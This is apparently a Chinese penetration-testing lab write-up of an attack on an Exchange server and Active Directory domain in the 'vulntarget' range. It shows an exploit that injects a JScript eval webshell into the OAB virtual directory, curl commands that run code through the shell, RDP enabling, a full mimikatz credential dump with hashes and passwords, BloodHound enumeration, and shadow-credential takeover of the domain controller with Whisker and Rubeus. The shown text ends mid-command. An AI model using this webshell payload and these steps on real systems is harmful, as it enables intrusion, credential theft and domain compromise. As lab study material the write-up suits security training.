SeAuditPrivilege              生成安全审核         已启用
SeChangeNotifyPrivilege       绕过遍历检查         已启用
SeImpersonatePrivilege        身份验证后模拟客户端 已启用
SeCreateGlobalPrivilege       创建全局对象         已启用


用户声明信息
-----------------------

用户声明未知。

已在此设备上禁用对动态访问控制的 Kerberos 支持。
Name                            : OAB (Default Web Site)
PollInterval                    : 480
OfflineAddressBooks             : \榛樿鑴辨満閫氳绨?
RequireSSL                      : True
BasicAuthentication             : False
WindowsAuthentication           : True
OAuthAuthentication             : True
MetabasePath                    : IIS://exchange.vulntarget.com/W3SVC/1/ROOT/OAB
Path                            : C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\OAB
ExtendedProtectionTokenChecking : None
ExtendedProtectionFlags         : 
ExtendedProtectionSPNList       : 
AdminDisplayVersion             : Version 15.1 (Build 2106.2)
Server                          : EXCHANGE
InternalUrl                     : https://exchange.vulntarget.com/OAB
InternalAuthenticationMethods   : OAuth
                                  WindowsIntegrated
ExternalUrl                     : http://ooo/#
ExternalAuthenticationMethods   : OAuth
                                  WindowsIntegrated
AdminDisplayName                : 
ExchangeVersion                 : 0.10 (14.0.100.0)
DistinguishedName               : CN=OAB (Default Web Site),CN=HTTP,CN=Protocols,CN=EXCHANGE,CN=Servers,CN=Exchange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=vulntarget,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=vulntarget,DC=com
Identity                        : EXCHANGE\OAB (Default Web Site)
Guid                            : 55cd2b49-add9-4e66-951f-7dbcb95ca47e
ObjectCategory                  : vulntarget.com/Configuration/Schema/ms-Exch-OAB-Virtual-Directory
ObjectClass                     : top
                                  msExchVirtualDirectory
                                  msExchOABVirtualDirectory
WhenChanged                     : 2023/9/5 18:02:14
WhenCreated                     : 2023/1/31 11:05:19
WhenChangedUTC                  : 2023/9/5 10:02:14
WhenCreatedUTC                  : 2023/1/31 3:05:19
OrganizationId                  : 
Id                              : EXCHANGE\OAB (Default Web Site)
OriginatingServer               : DC.vulntarget.com
IsValid                         : True

```

发现直接是System权限，新建管理员用户直接上线，这里卡了好久，一直换着方式想开启3389，powershell的方式是有问题的，最后使用交互式的shell解决的，注意关闭鉴权。

```shell
➜  exprolog-main proxychains4 -q python3 exprolog.py -t 172.18.10.102 -e administrator@vulntarget.com -i true  
    ______     ____             __           
   / ____/  __/ __ \_________  / /___  ____ _
  / __/ | |/_/ /_/ / ___/ __ \/ / __ \/ __ `/
 / /____>  </ ____/ /  / /_/ / / /_/ / /_/ / 
/_____/_/|_/_/   /_/   \____/_/\____/\__, /  
                                    /____/   

[#] Trying to get target FQDN
[+] Got target FQDN: EXCHANGE
[#] Trying to get target LegacyDN and ServerID
[+] Got target LegacyDN: /o=vulntarget/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=29bd31dad9c241ff887bb24476d86a6e-Administrator
[+] Got target ServerID: b200f0c8-4f5f-4aa4-9a65-600573ece8f9
[#] Trying to get target user SID
[+] Got target administrator SID: S-1-5-21-1172579584-1949262653-3015909612-500
[#] Trying to get target administrator cookie sessions
[+] Got target administrator session ID: c0054553-20d7-4bc5-9618-7efbccd2bc7f
[+] Got target administrator canary session ID: 6dMPzeBW3kqpj2emjoxpU9j6VTGcr9sItc-XIIIyOnddV9MlMi-bzpA74Q_0Lex8JPH4mWsMKqg.
[#] Trying to get target OABVirtualDirectory ID
[+] Got target AOB ID: b9f34dda-4a84-4102-9d34-1d53ecc13307
[#] Trying to inject OABVirtualDirectory Shell
[+] Shell are injected
[#] Verifying OABVirtualDirectory Shell
[+] AOB Shell verified
[+] AOB Shell payload: http:\/\/ooo\/#%3Cscript%20language=%22JScript%22%20runat=%22server%22%3Efunction%20Page_Load()%7Beval(Request%5B%22request%22%5D,%22unsafe%22);%7D%3C\/script%3E
[#] Trying to export OABVirtualDirectory Shell
[+] Shell are exported
[*] CURL Request: 
curl --request POST --url https://172.18.10.102/owa/auth/38amb.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
[*] DONE

[#] Run interactive shell
whoami
[#] command: nt authority\system

[#] command: REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
[*] Failed to execute shell command
[#] command: wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
执行(\\EXCHANGE\ROOT\CIMV2\TerminalServices:Win32_TerminalServiceSetting.ServerName="EXCHANGE")->SetAllowTSConnections()
方法执行成功。
外参数:
instance of __PARAMETERS
{
        ReturnValue = 0;
};

```

#### 内网渗透-收集账号密码

```shell
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 27256172 (00000000:019fe56c)
Session           : RemoteInteractive from 2
User Name         : t1st
Domain            : EXCHANGE
Logon Server      : EXCHANGE
Logon Time        : 2023/9/5 20:25:42
SID               : S-1-5-21-1180914642-2420848001-195603178-1002
        msv :
         [00000003] Primary
         * Username : t1st
         * Domain   : EXCHANGE
         * NTLM     : 518b98ad4178a53695dc997aa02d455c
         * SHA1     : 39aa99a9e2a53ffcbe1b9eb411e8176681d01c39
        tspkg :
        wdigest :
         * Username : t1st
         * Domain   : EXCHANGE
         * Password : (null)
        kerberos :
         * Username : t1st
         * Domain   : EXCHANGE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 27256136 (00000000:019fe548)
Session           : RemoteInteractive from 2
User Name         : t1st
Domain            : EXCHANGE
Logon Server      : EXCHANGE
Logon Time        : 2023/9/5 20:25:42
SID               : S-1-5-21-1180914642-2420848001-195603178-1002
        msv :
         [00000003] Primary
         * Username : t1st
         * Domain   : EXCHANGE
         * NTLM     : 518b98ad4178a53695dc997aa02d455c
         * SHA1     : 39aa99a9e2a53ffcbe1b9eb411e8176681d01c39
        tspkg :
        wdigest :
         * Username : t1st
         * Domain   : EXCHANGE
         * Password : (null)
        kerberos :
         * Username : t1st
         * Domain   : EXCHANGE
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 27187948 (00000000:019edaec)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/9/5 20:25:32
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : EXCHANGE$
         * Domain   : vulntarget.com
         * Password : iij*DXI]@2l+KM((e70[>_RTe)-kU&kLyK(-fumIr8C'[A9LP^yj[xiH5Y@=w^NLT^LN^8. tf#d[4hQ!T/u5B)Gm+ GfK)6abUJ;LfX`]IQviW\*61eb@tX
        ssp :
        credman :

Authentication Id : 0 ; 19359419 (00000000:012766bb)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 2023/9/5 17:02:33
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : EXCHANGE$
         * Domain   : vulntarget.com
         * Password : iij*DXI]@2l+KM((e70[>_RTe)-kU&kLyK(-fumIr8C'[A9LP^yj[xiH5Y@=w^NLT^LN^8. tf#d[4hQ!T/u5B)Gm+ GfK)6abUJ;LfX`]IQviW\*61eb@tX
        ssp :
        credman :

Authentication Id : 0 ; 11089021 (00000000:00a9347d)
Session           : NetworkCleartext from 0
User Name         : HealthMailbox602c5ff
Domain            : VULNTARGET
Logon Server      : DC
Logon Time        : 2023/9/5 13:54:21
SID               : S-1-5-21-1172579584-1949262653-3015909612-1634
        msv :
         [00000003] Primary
         * Username : HealthMailbox602c5ff
         * Domain   : VULNTARGET
         * NTLM     : c6b8211d707fa429db8ff2ff4359f0d4
         * SHA1     : d4fdfea4d289ecfff212929c00533df3948004c5
         * DPAPI    : 2939939cdc8dc0b2c2b06dbf1689f024
        tspkg :
        wdigest :
         * Username : HealthMailbox602c5ff
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : HealthMailbox602c5ff
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 10944146 (00000000:00a6fe92)
Session           : NetworkCleartext from 0
User Name         : HealthMailbox602c5ff
Domain            : VULNTARGET
Logon Server      : DC
Logon Time        : 2023/9/5 13:53:59
SID               : S-1-5-21-1172579584-1949262653-3015909612-1634
        msv :
         [00000003] Primary
         * Username : HealthMailbox602c5ff
         * Domain   : VULNTARGET
         * NTLM     : c6b8211d707fa429db8ff2ff4359f0d4
         * SHA1     : d4fdfea4d289ecfff212929c00533df3948004c5
         * DPAPI    : 2939939cdc8dc0b2c2b06dbf1689f024
        tspkg :
        wdigest :
         * Username : HealthMailbox602c5ff
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : HealthMailbox602c5ff
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:54
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 39245 (00000000:0000994d)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:53
SID               :
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
        kerberos :
        ssp :
         [00000000]
         * Username : HealthMailbox602c5ffddd164721b670367d4c0b9d50@vulntarget.com
         * Domain   : (null)
         * Password : ?VMmmz[O6RY77CR?^x!utQYW?XPGg=2zO6ABWq:P05+gnFBP+OqVnus?1Dpg!jb-Kt-z)*YH)ZTC!w3XZhbI5)vvU*)7Kz%Ic^:5sEfcc;mg%)|)uBs#A>Dw34aQGVBy
         [00000001]
         * Username : HealthMailbox602c5ffddd164721b670367d4c0b9d50@vulntarget.com
         * Domain   : (null)
         * Password : ?VMmmz[O6RY77CR?^x!utQYW?XPGg=2zO6ABWq:P05+gnFBP+OqVnus?1Dpg!jb-Kt-z)*YH)ZTC!w3XZhbI5)vvU*)7Kz%Ic^:5sEfcc;mg%)|)uBs#A>Dw34aQGVBy
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : EXCHANGE$
Domain            : VULNTARGET
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:53
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : exchange$
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1753496 (00000000:001ac198)
Session           : Interactive from 1
User Name         : ex_mail
Domain            : VULNTARGET
Logon Server      : DC
Logon Time        : 2023/9/5 13:17:50
SID               : S-1-5-21-1172579584-1949262653-3015909612-1601
        msv :
         [00000003] Primary
         * Username : ex_mail
         * Domain   : VULNTARGET
         * NTLM     : 3870db779ee524bae507f040c844d7bf
         * SHA1     : ee244b98d64cf667b45accfa7ccf74564d7ffeb7
         * DPAPI    : 65d63a21a70c5d783a17625a1afbf968
        tspkg :
        wdigest :
         * Username : ex_mail
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : ex_mail
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : EXCHANGE$
Domain            : VULNTARGET
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:53
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : exchange$
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 27187923 (00000000:019edad3)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/9/5 20:25:32
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : EXCHANGE$
         * Domain   : vulntarget.com
         * Password : iij*DXI]@2l+KM((e70[>_RTe)-kU&kLyK(-fumIr8C'[A9LP^yj[xiH5Y@=w^NLT^LN^8. tf#d[4hQ!T/u5B)Gm+ GfK)6abUJ;LfX`]IQviW\*61eb@tX
        ssp :
        credman :

Authentication Id : 0 ; 1753457 (00000000:001ac171)
Session           : Interactive from 1
User Name         : ex_mail
Domain            : VULNTARGET
Logon Server      : DC
Logon Time        : 2023/9/5 13:17:50
SID               : S-1-5-21-1172579584-1949262653-3015909612-1601
        msv :
         [00000003] Primary
         * Username : ex_mail
         * Domain   : VULNTARGET
         * NTLM     : 3870db779ee524bae507f040c844d7bf
         * SHA1     : ee244b98d64cf667b45accfa7ccf74564d7ffeb7
         * DPAPI    : 65d63a21a70c5d783a17625a1afbf968
        tspkg :
        wdigest :
         * Username : ex_mail
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : ex_mail
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:53
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 61787 (00000000:0000f15b)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:53
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : EXCHANGE$
         * Domain   : vulntarget.com
         * Password : iij*DXI]@2l+KM((e70[>_RTe)-kU&kLyK(-fumIr8C'[A9LP^yj[xiH5Y@=w^NLT^LN^8. tf#d[4hQ!T/u5B)Gm+ GfK)6abUJ;LfX`]IQviW\*61eb@tX
        ssp :
        credman :

Authentication Id : 0 ; 61739 (00000000:0000f12b)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/9/5 13:16:53
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * NTLM     : fc35b10255a4c517f6eeed9ea3c74729
         * SHA1     : e192d7a0a218db0f654b14ac7259cf2c04629aaa
        tspkg :
        wdigest :
         * Username : EXCHANGE$
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : EXCHANGE$
         * Domain   : vulntarget.com
         * Password : iij*DXI]@2l+KM((e70[>_RTe)-kU&kLyK(-fumIr8C'[A9LP^yj[xiH5Y@=w^NLT^LN^8. tf#d[4hQ!T/u5B)Gm+ GfK)6abUJ;LfX`]IQviW\*61eb@tX
        ssp :
        credman :
```

获取域内关系

```shell
➜  BloodHound.py-master proxychains4 -q python3 bloodhound.py -u "EXCHANGE$" --hashes fc35b10255a4c517f6eeed9ea3c74729:fc35b10255a4c517f6eeed9ea3c74729 -d vulntarget.com -dc DC.vulntarget.com -c all --dns-tcp -ns 172.18.10.101 --auth-method ntlm --zip
INFO: Found AD domain: vulntarget.com
INFO: Connecting to LDAP server: DC.vulntarget.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: DC.vulntarget.com
INFO: Found 27 users
INFO: Found 73 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 22 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: exchange.vulntarget.com
INFO: Querying computer: DC.vulntarget.com
INFO: Done in 00M 03S
INFO: Compressing output into 20230905084456_bloodhound.zip
```



攻击思路：

1. 利用ex_mail用户的权限，这个用户是`ORGANIZATION MANAGEMENT@VULNTARGET.COM`组的成员。
2. 使用ex_mail用户的权限，对`EXCHANGE WINDOWS PERMISSIONS@VULNTARGET.COM`组执行GenericAll操作，这将允许您对该组进行任意修改。
3. 将ex_mail用户添加到`ENTERPRISE KEY ADMINS@VULNTARGET.COM`组中，这将使您获得对企业密钥管理的权限。
4. 使用`ENTERPRISE KEY ADMINS`组的权限，执行`AddKeyCredentialLink`操作，将目标域控制器（DC）与一个新的密钥凭据关联。

拿着ex_mail用户的hash去解密



解出来的密码为：`qweASD@2023`

#### 内网渗透-影子凭据

将域用户ex_mail添加至`ENTERPRISE KEY ADMINS`组内，此处需使用SYSTEM权限添加

```shell
# 使用ADFind.exe查询ex_mail用户的distinguishedName
adfind.exe -b "dc=VULNTARGET,dc=COM" -f "(&(objectCategory=person)(objectClass=user)(sAMAccountName=ex_mail))" distinguishedName

# 使用ADFind.exe查询ENTERPRISE KEY ADMINS@VULNTARGET.COM组的distinguishedName
adfind.exe -b "dc=VULNTARGET,dc=COM" -f "(&(objectCategory=group)(sAMAccountName=ENTERPRISE KEY ADMINS))" distinguishedName

# DMod.exe（与ADFind.exe同一开发者提供）将ex_mail用户添加到ENTERPRISE KEY ADMINS@VULNTARGET.COM组中
admod.exe -b "CN=Enterprise Key Admins,CN=Users,DC=vulntarget,DC=com" "member:+:CN=exchange,OU=mail,DC=vulntarget,DC=com"

# 查询是否添加成功
net group "ENTERPRISE KEY ADMINS" /domain
```

未添加时：

通过 Whisker 的 add命令向域控制器的 msDS-KeyCredentialLink属性添加 Shadow Credentials，此处需要使用管理员身份打开CMD。

```shell
C:\Users\ex_mail\Desktop>Whisker.exe add /target:DC$ /domain:vulntarget.com /dc:DC.vulntarget.com
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password wjqlMpIql3oojLvS
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=vulntarget,DC=com
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 513150d3-fb50-4a17-9ba3-8a8496641374
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:DC$ /certificate:MIIJbgIBAzCCCS4GCSqGSIb3DQEHAaCCCR8EggkbMIIJFzCCBg4GCSqGSIb3DQEHAaCCBf8EggX7MIIF9zCCBfMGCyqGSIb3DQEMCgECoIIE9jCCBPIwHAYKKoZIhvcNAQwBAzAOBAiGx1COY+f8nAICB9AEggTQH2SI9V1SV1skKOFwTul1KvrrUd5n8BC4kGMqmLR8EIjfFV+2fmPIrUrBMzgQrO6mJRHmk6ZKH5RupmxrS4EXILyEoK8MBKYTyhqp2MSyVTaxFVsWsP3EG8JQJ3SyyTn/AcZFp9dIrMlZYJbskZLUTSbrA7xo1jzhWOCk+iIWiVqUlWOXw2wn2ou74cBs2psJ314nXptuskbSvD0QHkGWXxJf60pb4pzwJufo8Uyf9JPoCnj6pdGlIBwRmDiF3VxesQkKeuXWumyO1XR8pZKQc9SlJAnO3hfReY6qga727cx+C4dg29DaD3CTanhA7IryUsVOpUj+tgxrRSXXpzHEOPgOgzGkkMwd2LfhDi+RSd89O+RVX+LuanzVVxSQZIepE41Ku6cwD+pF3YozDTNwzjWhOVYG+lMDkou8Iq2CmmuMV7YxFYB2lYPx/Yyf7i81AMUIBMuC1z+CXN81JtCevN5yC2iPlXrzX+b11ty3nKlpsU9fuv/Z8oKootPf1sgJYiGKcF0iTb9kFW9u+mymf/aDnlIIFyWvGfjCtId6Ix0ZHk0h5cjnEVZujAU1baZHRZoo9Bx3g+ys1OkQaEcPPRqJo7/o3Y0YOVzkajP3h9dWVcyBNdVz07dCue21s87S2QW7jD5W++G3cw74DBMsmcVCOQeO1V36K+ZYAEo1yo1Fbf6dSvijfVK7IWj5DJpgE9E0v1WB/Xley71d1I2P2eSbuol3ezOsJ12rlNjLCggWkKlLN8hNZzuS1bihjEZbHtCZQhT/gPCS1/3y6kTzXP3ixAAZo31PHRQaTATOpS0A2zCMkRKI894SFToc1qaq5Ou7z9Pq0MiBcky3+vsrK76IVWYMpUSQKlXmiLTGZSmnuU5+30y2falFaKrRHkEU8XZWsaGkKjz7PHPZweZ5OErY7ch8cyy2JGfkYC59WJCWKWz/+0RScWqy/l5EfPOMc9s07usiKw9Ay/J1yQUBJTxnxsELAHogB3KuG0aeQxAdikLMHQWogmRGhbB/dL+9Hhs1NhT7fHXkE2MWdrh5SIqHagEl5bTwwSviHyS0BGwM26kXm1RN7PgaHiPCn83ORb2EqKFfxCrCsDYA60lcrupxc2OfYM3FBadr9xXzg/8QaaPAibYlwezeGxf8yeV7gxLwLg3UX4XvDIR9M6wQvOPKYeg30l+uk0f5Agct+qGiAB24C8o7OysSUHw9W2VtHoKDiSp+zsrx/zmA+W/cH9+1VnPE23cI6knZ7N9QH12IIQ5iFXmEq69cDAAv06G+HPa//lWlkYH1Rasuct3IeAaxW8E5k57p1iEDTNbSVpeW5j0Y/bqXvg5AL2j7e0Bc94iU2D92ihA6p9uh3h787pM2mEU0koT7aPVvAlXOTTmknYiqasImg3UKyMGd5xg3pSNZZyoNTAN0iDxxPNYrn/BqjCB5sYMKtZM5m+/E4oIoZvzFSjZGPKdc3P8eBrElBGLsJosonxoT4et52hR3ZL5FaZ4U1VjeS3klkylwQ3S2m+DwZJRYu8PQBmLdSLsTlexXZVt3vkwC3lHfpCb3j640C1bHOPwwAma7vgErnaV4lbVdsm8lS7wvh6n3G/9lFWiSQNgpsOFG+Bobfw18g5yawYM5xZkPqEeZRvUkTYwxgekwEwYJKoZIhvcNAQkVMQYEBAEAAAAwVwYJKoZIhvcNAQkUMUoeSAA0ADAAMQA4AGYAYwBiAGIALQBmADUAOQBiAC0ANABiAGYANwAtAGEAMAAzADcALQAzAGIAMAA4AGYANQAyAGEAMAA5ADIANDB5BgkrBgEEAYI3EQExbB5qAE0AaQBjAHIAbwBzAG8AZgB0ACAARQBuAGgAYQBuAGMAZQBkACAAUgBTAEEAIABhAG4AZAAgAEEARQBTACAAQwByAHkAcAB0AG8AZwByAGEAcABoAGkAYwAgAFAAcgBvAHYAaQBkAGUAcjCCAwEGCSqGSIb3DQEHAaCCAvIEggLuMIIC6jCCAuYGCyqGSIb3DQEMCgEDoIICvjCCAroGCiqGSIb3DQEJFgGgggKqBIICpjCCAqIwggGKoAMCAQICCHdVXlZCEJCiMA0GCSqGSIb3DQEBCwUAMBExDzANBgNVBAMeBgBEAEMAJDAeFw0yMzA5MDYwOTMyMjVaFw0yNDA5MDYwOTMyMjVaMBExDzANBgNVBAMeBgBEAEMAJDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAJ8h//o+e0oW+IC8foq47q9hz/u3+lmdw0sbGXSOZB6lTrdRjMgti4wT4R1IY+AWDHL7OZOVU/+iiNz0ajM/ZLRH13aT2XREcnascjALCJJjgb8kWbpNLbCBCw5zgDpcJBqhWuOIwqFgtXYdchoMCOVFH+OgZI7R9Yca6461+pbsOcchK2b0kG/Jhpg0Mlqh/w1GdQ4cJDU1T4am0pS7Cwtj1obHt4ZnwD/+d3zpLz4S13O53TIYpwrKbh96JEWToKn4/6a6MRzhspC2hluGDZMqBDvbysYcylpWRLUPVMKvhP9Yepz3Y0Mxn9NqSCPZIIAH3SEUcBLKJUE9gdufrNcCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEABHoLUIWxSd+dNTLK8KDXXbFMLXuQhEZT0ZpA+hokG10mjphu/P7Y+Gb6CwQM8RY73UYy9dlbtuVaDM3SvSuHoqb2HAk0sv8GOvofS+dZmGFbYJoAd+6HKnFA7IHdBwRfP1i8E6sCYBHCMsXDnVxwd+UFT+Bvr4a4iOzQaEHNLCW3ipenyrHsxxGw7Ncal36q57JQe4zF4WuRmVS/kRHeUVRgX1vVGDgUo7vFhq+J0iTKVdjgdtQrcfdDUiBvwXPYJMl2qLI+a6UKD9sDumo3laQKgMvlb8A0/zPmMTJkmb2cgfFNrVJUOjdjcp0y/qZfybr8SA7WMWmkuL9DWSgrijEVMBMGCSqGSIb3DQEJFTEGBAQBAAAAMDcwHzAHBgUrDgMCGgQUb3yoPdzpzenJpAdw+GKMb9yeBvUEFGMAzt9+Jq6AhKbRc8IFw2thBOsj /password:"wjqlMpIql3oojLvS" /domain:vulntarget.com /dc:DC.vulntarget.com /getcredentials /show
```

```bash
C:\Users\ex_mail\Desktop>Whisker.exe list /target:DC$ /domain:vulntarget.com /dc:DC.vulntarget.com
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=vulntarget,DC=com
[*] Listing deviced for DC$:
    DeviceID: 513150d3-fb50-4a17-9ba3-8a8496641374 | Creation Time: 2023/9/6 17:32:25
```

在Whisker.exe给出的命令可以使用基于证书的身份验证请求 TGT 票据，在最后加上/ptt，将凭证传入内存中

```bash
C:\Users\ex_mail\Desktop>Rubeus.exe asktgt /user:DC$ 